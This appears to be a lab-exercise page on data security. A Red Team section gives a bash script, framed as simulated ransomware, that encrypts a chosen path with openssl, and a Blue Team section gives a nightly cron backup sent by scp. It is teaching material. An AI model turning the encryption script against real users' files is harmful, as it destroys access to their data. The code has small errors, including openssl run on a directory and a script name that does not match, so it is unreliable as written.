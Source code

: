 # Data Security

# Red Team
For Red Team we will simulate a ransomware attack. This simple script will encrypt a directory of your choice (actually, we create a new encrypted version and preserve the original one):

```
#!/bin/bash

while getopts ":p:" opt; do
  case $opt in
    p)
      path_to_encrypt=$OPTARG
      ;;
    :)
      exit 1
      ;;
  esac
done

if [ -z "$path_to_encrypt" ]; then
  echo "Please provide a valid path."
  exit 1
fi

if [ ! -d "$path_to_encrypt" ]; then
  echo "The specified path does not exist or is not a directory."
  exit 1
fi

encryption_key=$(openssl rand -base64 32)

openssl enc -aes-256-cbc -salt -in "$path_to_encrypt" -out "$path_to_encrypt.enc" -k "$encryption_key"

echo "The path $path_to_encrypt has been encrypted with AES 256. Encryption key: $encryption_key"
```

And let's run it with `home/kali/Desktop/ransom.sh -p /home/kali/Desktop/toBeEncrypted`. Change the directory you want to encrypt.

# Blue Team
Since decrypting files can be virtually impossible, our best alternative here is to have a backup.

To ensure that we will constant backups being stored in a dedicated server, we will create a script that zips and archives a folder `/home/kali/importantFiles` everyday at midnight, and uploads it to another machine through scp. `nano backup.sh`:

```
#!/bin/bash

sourceDir="/home/kali/importantFiles"
timestamp=$(date +"%Y%m%d_%H%M%S")
zipFilename="importantFiles_$timestamp.tar.gz"
tar -zcvf "$zipFilename" "$sourceDir"

scp "$zipFilename" user@192.168.0.10:/home/backups/kaliBackups/

rm "$zipFilename"
```

Grant it execute permissions with `chmod +x backup_and_transfer.sh` and then let's add it to our crontab `crontab -e`:

```
0 0 * * * /home/kali/backup.sh
```

This way, if our kali machine is compromised, our important files were upload to a different host the night before - working without the data for the previous day is definitely better than losing everything.